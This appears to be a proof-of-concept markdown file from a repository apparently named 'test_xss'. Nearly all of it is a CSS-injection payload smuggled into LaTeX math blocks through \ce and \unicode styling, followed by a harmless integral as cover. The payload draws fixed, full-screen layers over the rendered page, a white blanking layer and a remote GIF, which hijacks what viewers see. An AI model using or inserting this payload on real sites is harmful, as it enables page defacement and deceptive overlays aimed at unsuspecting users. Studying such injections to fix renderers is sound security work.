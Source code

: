 ```math
\ce{$&#x5C;unicode\[goombafont; color:red; pointer-events: none; z-index: 100; position: fixed; top: 0; left: 0; height: 100vw; width: 100vw; background-repeat: no-repeat; background-size: contain; background-position: center top; background-image: url('https://github.com/pedestrianlove/test_xss/blob/main/nothing-to-see-here.gif?raw=true');]{x0000}$}

```math
\ce{$&#x5C;unicode\[goombafont; color:red; pointer-events: none; z-index: 99; position: fixed; top: 0; left: 0; height: 180vh; width: 100vw; background: white;]{x0000}$}


\int_{0}^{1} \frac{1}{x^2+1} dx
